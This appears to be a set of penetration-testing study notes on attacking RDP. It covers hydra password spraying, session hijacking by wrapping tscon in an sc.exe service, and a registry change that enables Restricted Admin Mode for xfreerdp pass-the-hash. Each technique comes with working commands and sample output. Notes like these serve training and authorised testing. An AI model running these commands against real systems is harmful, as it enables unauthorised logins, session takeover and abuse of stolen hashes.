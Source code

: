 # RDP Attack

* a user account will be locked or disabled after a certain number of failed login attempts.
  * In this case, we can perform a specific password guessing technique called \[\[Password Spraying]]
    * Using the Crowbar tool, we can perform a password spraying attack against the RDP service

### Nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

### Hydra - RDP Password Spraying

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Crowbar - RDP Password Spraying

* [crowbar.md](crowbar.md "mention")



### RDP Session Hijacking

* if another user is logged in we can hyjack their session
* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary
  * that enables users to connect to another desktop session

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges.
  * Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as \[\[PsExec]] or \[\[Mimikatz]]
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
  * We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.
  * First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute.
  * Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user
```

```cmd-session
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
[SC] CreateService SUCCESS
```

* To run the command, we can start the `sessionhijack` service :

```cmd-session
net start sessionhijack
```

* Once the service is started, a new terminal with the `lewen` user session will appear.
* With this new account, we can attempt to discover what kind of privileges it has on the network
*

    <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * _Note: This method no longer works on Server 2019._

    ### RDP Pass-the-Hash (PtH)

    * If we have plaintext credentials for the target user, it will be no problem to RDP into the system.
      * However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password
      * in some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.
      * There are a few caveats to this attack
        * `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
          *

              <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


          * This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.&#x20;
            * It can be done using the following command: - `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
            *

                <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


            * Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: - `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
          * If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.&#x20;



